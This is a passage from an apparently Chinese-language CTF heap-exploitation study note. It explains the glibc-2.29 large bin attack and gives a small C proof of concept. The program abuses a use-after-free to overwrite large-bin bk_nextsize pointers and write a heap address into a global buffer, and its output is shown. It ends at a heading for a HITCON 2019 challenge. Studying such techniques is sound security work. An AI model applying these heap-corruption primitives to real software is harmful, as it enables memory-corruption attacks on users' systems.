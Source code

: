 ##### 实例（相关house of storm）

[oneTab](https://www.one-tab.com/page/7yziPLr7RwKfJ97rdf4CdA)

### 0x3 glibc-2.29 large bin attack 原理

#### 0x30 前提

有一个UAF漏洞，可以控制large bin的`bk_nextsize`。

#### 0x31 原理分析

与[0x22](#0x22 插入到largebin中)类似。

```c
victim->bk_nextsize = fwd->fd->bk_nextsize; // one
victim->bk_nextsize->fd_nextsize = victim; // two，
```

#### 0x32 实例代码

```c
#include <stdio.h>
#include <stdlib.h>

size_t buf[0x10];

int main()
{
    size_t *ptr, *ptr2, *ptr3;
    setbuf(stdout, NULL);

    ptr = malloc(0x438);
    malloc(0x18);
    ptr2 = malloc(0x448);
    malloc(0x18);
    free(ptr);
    // put ptr into large bin
    malloc(0x600);
    free(ptr2);
    ptr[2] = 0;
    ptr[3] = (size_t)&buf[0];

    printf("buf[4]: 0x%lxn", buf[4]);
    ptr3 = malloc(0x68);
    printf("buf[4]: 0x%lxn", buf[4]);

    return 0;
}
```

```shell
buf[4]: 0x0
buf[4]: 0x560075a246b0
```

#### 0x33 实例

##### HITCON CTF 2019 PWN – one punch man






